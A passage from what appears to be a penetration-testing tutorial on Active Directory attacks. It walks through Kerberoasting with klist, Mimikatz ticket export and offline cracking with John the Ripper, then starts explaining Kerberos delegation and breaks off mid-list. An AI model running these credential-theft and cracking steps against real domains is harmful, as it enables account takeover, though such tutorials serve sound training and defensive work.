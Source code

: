 ![](https://0x4rt3mis.github.io/assets/img/active-enum/spn1.png)

We verified that the Ticket was injected in our section

```ps1
klist
```

![](https://0x4rt3mis.github.io/assets/img/active-enum/spn2.png)

Now we can export it to crack offline the password

```ps1
Invoke-Mimikatz -Command '"kerberos::list /export"'
```

![](https://0x4rt3mis.github.io/assets/img/active-enum/spn3.png)

It was saved to a `.kirby` file. Now we pass it to our Kali and with the Kirbi2John utility we transform it into a readable format for John

![](https://0x4rt3mis.github.io/assets/img/active-enum/spn4.png)

Now we crack it

```sh
john --wordlist=./filtered_top_100k.txt ticket.hash
```

![](https://0x4rt3mis.github.io/assets/img/active-enum/spn5.png)

This was the attack known as `Kerberoast`, now we go to the one that is more complex which is the Delegation

# Delegation

The main idea of ​​this attack is to understand the credential reuse that Kerberos allows for.

Kerberos Delegation allows the reuse of credentials to access resources on different hosts, that's right, reuse the ticket. This is very useful when talking about multi-tier services or applications where Kerberos Double Hop is required, for example, we have the situation where a user authenticates to a web server and the web server in turn makes the request to a bank of data, the web server can simply access resources (some) in the database as if it were the user and not as the web server service account. And so, having the access it needs to have on the remote server, it is clear that trusted for delegation is needed to make this request as a user.

Confused yet? Let's try to explain better...

But why the hell was this implemented?

![](https://0x4rt3mis.github.io/assets/img/active-enum/diag.png)

1) User gives your credentials for Domain Controller

2) The DC returns you a TGT.

3) User requests TGS to web server.
